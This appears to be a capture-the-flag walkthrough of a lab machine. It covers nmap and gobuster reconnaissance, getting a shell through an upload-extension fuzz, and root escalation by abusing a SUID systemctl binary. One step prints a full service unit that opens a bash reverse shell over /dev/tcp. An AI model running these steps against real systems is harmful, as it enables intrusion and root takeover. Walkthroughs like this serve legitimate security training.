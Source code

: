 # #1: Reconnaissance 

Reconnaissance is act of gathering information about the target. 

## Practical

### Nmap

![1d1166f1df36477c0481153e9b4b496d.png](_resources/5c6bb67840e94c87befa6cc5c0fc7c54.png)

Scan through all port 
```
$ nmap -p- --min-rate 1000 -oN all-port 10.10.231.160 -v
```
![ca10d8e44625cef38ea6be3a16f8f849.png](_resources/ae01612d2a3b470aadec519e84617b87.png)

Determine the version of the running services
```
$ nmap -p21,22,139,445,3128,3333 -sC -sV -oN all-port-scan 10.10.231.160 -v
```

## Questions

![6cfd513425cca8de18e828d4e6aeb443.png](_resources/3c30c14785644f9d8b08f0797d4d2e21.png)

# #2: Locating directories using GoBuster 

## Practical

### Gobuster
```
$ gobuster dir -u http://10.10.231.160:3333 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -o discovered.txt
```

![98f7337b2a06c617531d63f87e6932c4.png](_resources/2e97316d8e33467990e0e2b516911f72.png)

Result:
```
/images               (Status: 301) [Size: 322] [--> http://10.10.231.160:3333/images/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.231.160:3333/js/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.231.160:3333/css/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.231.160:3333/internal/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.231.160:3333/fonts/]
/server-status        (Status: 403) [Size: 303]
```

## Questions
![c8ae9808ee8ee657bf52e79f61420a5a.png](_resources/d1cd1eaa9168482d869328121ef3728b.png)
  
# #3 Compromise the webserver 

## Practical

Visit the uploads page 

```
http://machine_ip:3333/internal/index.php
```

![38103265ff226ec22d1af4e27add68ed.png](_resources/6f92a893665c40b4ae99df6a52a50b7d.png)

### Fuzzing File Extension 

Payload position  

![9bba3d03abb99098428a6c7039553cee.png](_resources/aee12aca45e341c6a092853c79df5d41.png)

Wordlist

![6ef65443dd45b444d2c09f3ba0b36d8e.png](_resources/7242d06ca3af4558b4232e20a4be0125.png)

Start attack and notice the page length

![4a64d3a359f0ef4e0e1213ca9265c9c0.png](_resources/52cc839834f649af8f7c38273fd7d915.png)

Send reverse shell

![2ec6da3c8767e4b27c51220bbfb258b7.png](_resources/7d355abc6f1446f8bcfe8cc79727e54b.png)

Determine upload location

![dc84ba97630550ba19ce63add027292b.png](_resources/88eb323f28c849dd9ca4a8c3ba2f013a.png)

Visit the /internal/uploads/  

![96fd6d16bf89b38f5435323d0eb0d633.png](_resources/d02e322229e44537b3063ac0ab2138f3.png)

Execute the reverse shell.  

![7ee43fbc3e31fd11c31a6064202e339f.png](_resources/57aad1e798cb4d95b2c393acd01021f6.png)

## Questions

![bfd8bc27944b17eca0666dcc17f978c2.png](_resources/7cc5b89c9930495f9bef56ba009965e2.png)

![56683666ea822cda7c513c2ef6cbde50.png](_resources/0e75f11df885455499f0c27c4818cc10.png)

![207b122b2498ab2e6b16f27cd3212d8b.png](_resources/e7c760b9257241b4876e70ad05d3c377.png)

![72dbfa05ac31adc2c46d4ea97d82234a.png](_resources/7c85718eb4df40f78db1f13e288f0ba7.png)

# #4 Privilege Escalation
Privilege escalation is act of searching potential vector such as exploit bugs, system flaws, or abuse misconfiguration to gain higher privileges (root or administrator) 

There are two types of privilege escalation:
- Horizontal Privilege Escalation, user level to another user
- Vertical Privilege Escalation, user level to super user (root/admin/system)

## Practical

### Abusing SUID
SUID (set owner userId upon execution)

The **find** command can be used to find binary with SUID bit
```
$ find / -type f -perm -u=s 2>/dev/null | grep -v proc
```

systemctl is a utility for managing system and service in Linux. With SUID bit set, it offers a potential [privesc](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740) vector.

![c4c2fcba4ad579ba0f626340da39067d.png](_resources/d52a2f3ed3c4435abd3fc35544d011ae.png)


Steps:

1. root.service

    ```
    [Unit]
    Description=im groot

    [Service]
    Type=simple
    User=root
    ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/9000 0>&1'

    [Install]
    WantedBy=multi-user.target
    ```

2. Host and download it on the target

    ![66a4d593472f33fe22893f5e5b4ef4fc.png](_resources/e890907bf17345f9b4f042b19a7ae1c7.png)

    ![f80d5024437848823cd690f666c70784.png](_resources/49c3b280e284446da2ff3f840332d417.png)

3. Enable root.service and start service

    ```
    $ /bin/systemctl enable /dev/shm/root.service
    ```

    ```
    $ /bin/systemctl start root
    ```

4. Check the listener

![ff7d4260e110a28da6f630dd3bc15cf9.png](_resources/0bed6439af0d4a64a1ad6f3bc63b3267.png)